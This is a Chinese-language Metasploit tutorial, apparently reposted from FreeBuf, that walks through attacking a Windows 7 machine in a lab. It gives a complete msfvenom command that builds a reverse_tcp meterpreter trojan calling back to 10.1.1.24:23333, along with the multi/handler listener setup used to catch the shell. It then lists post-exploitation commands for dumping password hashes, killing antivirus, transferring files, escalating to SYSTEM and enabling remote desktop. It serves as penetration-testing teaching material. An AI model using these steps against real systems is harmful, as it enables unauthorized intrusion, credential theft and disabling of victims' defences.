

# 渗透工具：Metasploit教程-windows渗透

url：https://www.freebuf.com/articles/web/271173.html


## 0x00 简介

Metasploit Framework (MSF)是一款经典的渗透测试框架，之所以说是框架，是因为它是一款开源、可下载的框架并可以进行脚本自定义和二次开发。MSF是由Ruby程序语言编写的模板框架，具有很好的扩展性，便于渗透测试人员开发、使用和定制工具模板。我们能够通过它发现漏洞并进行快速实时攻击。

## 0x01 准备工作

1 由于kali已集成MSF，本次直接在kali2021.1版本上进行演示。

2 MSF使用PostgreSQL存储数据，启用该数据库将大幅提高搜索速度和效率

3 关闭防火墙避免不必要的干扰

### 1.1 配置PostgreSQ;数据库服务

开启kali


打开终端


查看postgresql数据库服务状态

命令：systemctl status postgresql


开启服务：systemctl start postgresql


输入密码赋予sudo权限


再次查看数据库状态啊


数据库服务成功启动

将数据库设置为开机自启，命令：sudo systemctl enable postgresql


输入密码


成功将数据库服务设置为开机自启

### 1.2 建立MSF搜索索引

初始化Metasploit数据库，命令：sudo msfdb init


**注：由于刚刚我们已经进行了sudo的校验，所以在当前会话中将不再验证**

成功创建MSF搜索数据库

查看MSF和数据库的连接，命令：msfconsole db_status


输入exit退出MSF


建立数据库缓存，命令：msfconsole db_rebuild_cache


成功建立元数据索引

### 1.3 关闭防火墙

安装ufw：sudo apt-get install ufw


关闭防火墙并禁止开机自启：sudo ufw disable


## 0x02 MSFvenom

Msfvenom是MSF内置的木马生成器，支持windows、Linux平台和多种语言，但由于做的过好所以很快就被杀软直接消灭了(原生的基本都是百分百检测)，关于免杀的内容放到以后单独出一期。

### 2.1 参数说明

> -p payload
>
> -e 编码方式
>
> -I 编码次数
>
> -b 在生成的程序中避免出现的值
>
> LHOST,LPORT 监听主机的IP和端口
>
> -f exe 生成exe格式

可以执行msfvenom -l 查看payload列表

### 2.2 生成木马

输入ifconfig查看本机网卡信息


使用以太网卡eth0:10.1.1.24

查看本机端口占用情况


**要时刻注意端口冲突问题**

终端输入msfconsole开启MSF


本次演示生成Windows木马，推荐使用大端口号

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.24 LPORT=23333 -f exe > msf.exe
```


成功生成木马

## 0x03 监听

### **3.1 介绍**

模块：exploit/multi/handler

参数说明：

set PAYLOAD <一定要和攻击payload相同>

set LHOST <监听IP>

set LPORT <监听端口>

set ExitOnSession false 设置是否自动断开会话

exploit / run：开启监听

show options：查看当前配置

### **3.2 开启监听**

打开msf，进入监听模块

use exploit/multi/handler


设置payload，以Windows为例

```
set payload windows/meterpreter/reverse_tcp
```


设置本机IP，set LHOST 你的IP


设置监听端口，set LPORT 监听的端口


查看配置



开启监听


### 3.3 反弹shell

受害机：Windows 7

将2.2中生成的木马msf.exe上传到win7中


运行msf.exe，返回kali查看效果


成功获取shell，此时可以进行下一步的攻击操作了

### **3.4 后渗透**

当我们的木马成功反弹目标机shell后，第一步就是获取目标机的一些基础信息，例如系统版本，网段，AD等…MSF已经为我们提供了一些便捷的功能

```
注：下列命令都是在meterpreter下运行
```

background：将会话放回后台

exit：关闭会话

help：查看帮助信息

sysinfo：查看系统信息

screenshot：截取屏幕

shell cmd：执行目标系统命令

download 目标机filename 本机filename’：下载文件到本机

upload 本地文件路径 目标文件路径：上传文件到目标机

getuid：查看用户权限

getsystem：尝试获取SYSTEM权限

hashdump：导出密码的hash值

run killav：关闭杀软

run getgui -e：启用远程桌面(需要目标系统支持)

**演示部分命令：**


挂起会话：background


查看会话列表：sessions


进入指定ID的会话：session -I ID

